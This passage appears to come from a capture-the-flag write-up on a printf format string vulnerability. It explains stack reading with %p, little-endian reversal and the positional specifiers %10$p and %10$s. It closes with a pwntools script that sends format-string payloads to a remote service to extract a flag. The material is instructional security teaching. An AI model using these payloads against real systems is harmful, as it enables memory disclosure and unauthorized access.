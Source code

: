 
### Format String Attack Mechanics

When `printf(buf)` executes with our payload:

1. **Format specifier parsing**: `printf()` scans the format string for `%` characters
2. **Argument retrieval**: For each specifier, it expects an argument from the stack
3. **Stack walking**: Since no arguments were provided, it reads from the stack frame
4. **Data extraction**: Each `%p` reads 8 bytes and displays them as hex

### Endianness Impact

**Little-endian storage example:**
- String: "pico"
- ASCII: 70 69 63 6F (hex)
- Little-endian storage: 6F 63 69 70
- Stack read: 0x6f636970
- Reversed: "ocip" → "pico"

This is why we need to reverse the hex-decoded chunks to reconstruct the original string.

## Advanced Techniques

### Positional Parameters

Instead of using many `%p` specifiers, we can use positional parameters:

```c
printf("%10$p");  // Read the 10th argument from the stack
```

This allows targeted access to specific stack positions once we know the flag's location.

### String Extraction

If we find that a stack position contains a pointer to our flag string:

```c
printf("%10$s");  // Print the string pointed to by the 10th stack argument
```

This can directly extract string data without manual hex conversion.

### Automated Flag Extraction

```python
from pwn import *

def extract_flag(host, port):
    p = remote(host, port)
    
    # Try different stack positions
    for i in range(5, 30):
        payload = f"%{i}$p"
        p.sendline(payload.encode())
        response = p.recvline()
        
        # Check if response contains flag-like data
        if b"pico" in response.lower() or b"flag" in response.lower():
            print(f"Position {i}: {response}")
    
    p.close()
```
